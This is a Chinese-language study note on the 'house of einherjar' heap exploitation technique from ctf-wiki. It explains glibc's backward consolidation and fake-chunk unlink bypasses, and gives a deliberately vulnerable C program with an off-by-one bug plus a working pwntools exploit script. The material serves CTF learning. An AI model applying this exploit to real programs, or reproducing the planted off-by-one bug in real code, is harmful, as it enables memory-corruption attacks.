

House系列的第一个~

参考:
[ctfwiki](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/house-of-einherjar/)

# 介绍
house of einherjar 是一种堆利用技术，由 Hiroki Matsukuma 提出。
该堆利用技术可以强制使得 malloc 返回一个几乎任意地址的 chunk 。
其主要在于滥用 free 中的后向合并操作（合并**低地址**的 chunk），从而使得尽可能避免碎片化。

注意前/后的定义

# 原理

## 后向合并操作
free函数中的后向合并核心操作:
```c
/* consolidate backward */
if (!prev_inuse(p)) {
    prevsize = prev_size(p);
    size += prevsize;
    p = chunk_at_offset(p, -((long) prevsize));
    unlink(av, p, bck, fwd);
}
```


## 利用原理
- 两个物理相邻的 chunk 会共享 prev_size字段，尤其是当低地址的 chunk 处于使用状态时，高地址的 chunk 的该字段便可以被低地址的 chunk 使用。
 因此，我们有希望可以通过写低地址 chunk 覆盖高地址 chunk 的 prev_size 字段。
- 一个 chunk PREV_INUSE 位标记了其物理相邻的低地址 chunk 的使用状态，而且该位是和 prev_size 物理相邻的。(小端序)
- **key!** 后向合并时 新的chunk的位置取决于 `chunk_at_offset(p, -((long) prevsize))`

如果我们能控制chunk得`prev_size`段和`prev_inuse`段 就可以将新的chunk**指向几乎任意位置**!
当然有个点要注意 设置新chunk位置后进行了**unlink**操作 所以要提前在目标位置伪造好chunk 编辑好指针
绕过unlink的检测

## 利用过程

### 溢出前


### 溢出
假设p0堆块既可以写prev_size字段 也可以off_by_one写prev_inuse字段


### 溢出后
将p1的prev_size字段设置为目的chunk位置与p1的差值 溢出后
`p = chunk_at_offset(p, -((long) prevsize));` 就指向我们的目标地址了
要注意提前布置好fake chunk绕过unlink的检测


其实这里的绕过可以简单处理(因为不需要达到unlink修改指针的效果):
```c++
p->fd = p
p->bk = p
```
与unlink的绕过不同
unlink:
```c++
p->fd = &p-3*size
p->bk = &p-2*size
```

以ctfwiki给的代码实例:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void){
    char* s0 = malloc(0x200);　//构造fake chunk
    char* s1 = malloc(0x18);
    char* s2 = malloc(0xf0);　
    char* s3 = malloc(0x20); //为了不让s2与top chunk 合并
    printf("begin\n");
    printf("%p\n", s0);
    printf("input s0\n");
    read(0, s0, 0x200); //读入fake chunk
    printf("input s1\n");
    read(0, s1, 0x19); //Off By One
    free(s2);
    return 0;
}
```
满足利用条件: fakechunk且可写&&off_by_one覆盖prev_inuse

exploit:
```py
from pwn import *

p = process("./example")
context.log_level = 'debug'
#gdb.attach(p)
p.recvuntil("begin\n")
address = int(p.recvline().strip(), 16)
p.recvuntil("input s0\n")
payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0 
# 
# 把fd和bk都设置为address 简单粗暴绕过(其实是因为得不到&p)
'''
p64(address) * 2是为了绕过
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      
  malloc_printerr ("corrupted double-linked list");
'''
payload += p64(0x100) #fake size
p.sendline(payload)
p.recvuntil("input s1\n")
payload = "A"*0x10 + p64(0x220) + "\x00"
p.sendline(payload)
p.recvall()
p.close()
```

emm 再理一下
第一个输入s0是在伪造一个堆块吧 从chunk头开始伪造 伪造一个大小为0x100的chunk
然后+payload(0x100)是把下一个"chunk"的prev_size设置为0x100(说明前面那个"chunk"是空闲的)

第二次输入s1目的就是伪造prev_size和prev_inuse
分别改为offset(0x4a0-0x290+0x10)和0
但不是应该覆盖s2的吗...

ooops... got it... 前面的堆块复用了后面堆块的prev_size段...
所以最后覆盖的一个字就是prev_size的 然后再off-by-one修改prev_inuse

